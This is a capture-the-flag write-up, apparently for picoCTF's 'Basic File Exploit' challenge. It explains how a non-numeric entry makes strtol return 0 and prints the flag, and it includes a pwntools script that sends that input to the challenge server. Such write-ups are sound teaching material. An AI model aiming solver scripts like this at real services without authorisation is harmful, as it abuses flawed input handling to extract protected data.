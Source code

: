 # Basic File Exploit

I started off by hunting down where the flag was being outputted in the source
code and quickly identified it to be in the `data_read` function which gets
invoked when you send through `2` to the interactive menu:

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
}
```

The goal, it seems, is to get the condition to pass. To accomplish this, we must
get `strtol(entry, NULL, 10)` to return `0`, thereby causing `((entry_number = 0) == 0)`
to return evaluate to `true` and proceed to dump the flag.

The crucial observation to make is that we get to control the value of `entry`
in `data_read` via the following line:

```c
r = tgetinput(entry, 4);  // 1. Reads input string into `entry`.
```

If we can send in a non-numeric input like "a", then this will result in 
`strtol(entry, NULL, 10)` returning `0`, which is what we want to achieve.

Before we can even invoke `data_read` however, it seems that there must exist
data in the 'database'. To get past this is straightforward &mdash; we just have
to invoke `data_write` first with any non-empty valid input, and then we'll be
able to invoke `data_read` right after and send in "a" to leak the flag. 
The following Python script executes this idea and obtains the flag for us.

```python
from pwn import *

context.log_level = "critical"

def solve():
    io = remote("saturn.picoctf.net", 55825)

    # Invoke `data_write`:
    io.sendline("1".encode())
    io.sendline("a".encode())   # Please enter your data:
    io.sendline("1".encode())   # Please enter the length of your data:

    # Invoke `data_read`:
    io.sendline("2".encode())
    io.sendline("a".encode())   # Please enter the entry number of your data:

    # Extract the leaked flag.
    output = io.recvrepeat(1)
    print(output)

    io.close()

solve()
```
